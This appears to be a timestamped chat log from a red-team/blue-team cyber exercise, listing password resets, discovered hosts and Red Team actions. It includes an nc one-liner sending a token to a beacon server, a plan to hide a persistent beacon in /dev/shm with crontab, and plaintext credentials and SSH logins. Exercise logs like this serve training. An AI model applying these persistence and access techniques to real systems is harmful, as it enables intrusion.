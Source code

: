 **9:54 AM** - **Windows Team (br_ttney)**
- Reset password on Windows 10-3
- Restarting 10-2 to apply security settings
- Started secure script on 10-3

**10:02 AM** - **Windows Team (br_ttney)**
- Started Windows 12
- Reset password on Windows 12

**10:35 AM** - **Red Team (Anthony)**
- Announced beacon server token: 999c80c3-f424-4e75-91b1-7a63272cdc80
- Provided beacon server details:
  - Beacon: 100.80.0.144
  - CLI: 100.80.0.145
  - Server listening on TCP 50007

**10:35 AM** - **Red Team (coldren)**
- Found BT2 mediawiki open: 100.80.4.145
- Found BT3 linux3 open: 100.80.7.13

**10:38 AM** - **Red Team (coldren)**
- Found BT4 podwrk1 open: 100.80.9.52

**10:55 AM** - **Red Team (Punch Stain)**
- Provided team token: c0a97553-c1a7-4784-a8de-3b5f06bf03dc

**11:03 AM** - **Red Team (Anthony)**
- Provided beacon submission command:
  - `echo "c0a97553-c1a7-4784-a8de-3b5f06bf03dc" | nc 100.80.0.144 10443`

**11:04 AM** - **Red Team (Uscar)**
- Identified SSH access to BT3: olivia.white@100.80.7.13

**11:07 AM** - **Red Team (Uscar)**
- Asked about flag submission process

**11:25 AM** - **Red Team (Anthony)**
- Provided flag submission command for enemy boxes

**11:26 AM** - **Red Team (Uscar)**
- Planned to hide beacon with one-liner in /dev/shm/.job
- Created persistent beacon script with crontab

**11:44 AM** - **Red Team (coldren)**
- Found new host opened on BT2: redis0 (100.80.4.166)

**11:45 AM** - **Red Team (Anthony)**
- Asked about user for redis0

**11:47 AM** - **Red Team (coldren)**
- Found BT3 ns1 (100.80.6.133) accessible
- Used credentials: icanhassaccesswith P@55w0rd1!

**11:49 AM** - **Red Team (Uscar)**
- Identified SSH access through keys for oscar.harris@100.80.4.166
- Noted BT3 redis should beacon to team

**11:54 AM** - **Red Team (Anthony)**
- Shared game URL: http://100.80.0.134:8080/game/7/
